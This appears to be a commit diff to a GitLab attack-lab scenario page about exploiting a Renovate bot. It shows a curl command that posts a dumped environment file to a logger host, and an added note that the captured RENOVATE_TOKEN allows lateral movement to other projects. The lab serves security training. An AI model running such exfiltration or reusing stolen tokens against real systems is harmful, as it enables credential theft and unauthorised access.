

Before and after one commit to sploutchy/gitlab-attack-lab, a Markdown page: lab-config/scenarios/scenario-03-renovate-bot-exploitation.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Note that the dumped RENOVATE_TOKEN enables lateral movement
Calls out that the renovate-bot identity's own token, captured via
the environment dump, can be reused against other projects the bot
has access to.

```diff
--- a/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
+++ b/lab-config/scenarios/scenario-03-renovate-bot-exploitation.md
@@ -70,3 +70,5 @@ Other helpful commands:
 Example curl command: `curl -k -sSf -X POST -F "files=@$ENV_FILE" http://webhook-logger:8084`
 
 ⚠️ **Note:** Be careful about directly inviting the bot to create MRs - it could create the MR before you've updated your exploit code!
+
+💡 **Note:** The dumped environment variables include `RENOVATE_TOKEN` — the `renovate-bot` identity's own GitLab token. You can reuse it to move laterally to any other project the bot has access to.
```
